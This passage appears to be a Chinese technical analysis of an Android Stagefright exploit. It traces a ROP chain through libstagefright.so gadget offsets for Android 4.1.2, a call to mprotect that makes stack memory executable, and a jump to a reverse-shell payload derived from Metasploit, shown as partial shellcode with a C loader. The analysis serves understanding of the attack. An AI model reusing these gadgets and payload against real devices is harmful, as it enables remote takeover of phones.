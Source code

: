 **3）执行pc**

此时pc为0xb00038b2+1，基所指向的指令为：

    
    
    pop {r0, r1, r2, r3, r4, pc}
    

将sp指向的栈弹出并存入到r0-r4及pc寄存器中，该条指令执行完后，r0=sp_addr &0xFFFFF000，r1=0x1000，r2=7，pc=0xb001144。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0009086C。

**4）再执行pc**

此时pc为0xb001144，该地址是mprotect函数的地址，位于libc.so中，代码如下：

    
    
    .text:0000CACC                 EXPORT mprotect
    .text:0000CACC                 STMFD           SP!, {R4,R7}
    .text:0000CAD0                 MOV             R7, #0x7D
    .text:0000CAD4                 SVC             0        ;超级用户调用
    .text:0000CAD8                 LDMFD           SP!, {R4,R7}
    .text:0000CADC                 MOVS            R0, R0
    .text:0000CAE0                 BXPL            LR      
    .text:0000CAE4                 B               sub_39D44
    

将sp_addr地址，长度为0x1000的内存改为可执行权限。

    
    
    .text:0000CAE0                 BXPL            LR
    

如果执行成功则调用lr，即0xb0002a98。

**5）执行lr**

此时lr为0xb0002a98，其指向的指令如下：

    
    
    pop {pc}
    

当前`sp=ROP+0x24`，执行完成后`pc=sa+0x80，即shell_reverse_tcp代码的地址。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0005ad14。

**1.2 shell_reverse_tcp**

exploit代码看shell_reverse_tcp是反向连接到目标ip:port的一段payload，这段代码是从metasploit的`shell_reverse_tcp`[[3]](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb)修改而来的。为了搞清楚这段代码的功能，我们写了一段loader来加载这段代码，然后反汇编进行分析，如下：

    
    
    unsignedchar payload[] = 
    "\x02\x70\xa0\xe3"
    ……
    "65\x6d\x2f\x62\x69\x6e\x3a\x2f\x73\x79\x73\x74\x65\x6d\x2f\x78\x62\x69\x6e\x00";
    int loader()
    {
    printf("hello payload: 0x%x\n", payload);
    asm__volatile__ (
    "ldr r0, =payload \t\n"
    "blx r0 \t\n");
    return0;
    }
    int main(intargc, char* constargv[])
    {
    loader();
    return0;
    }
    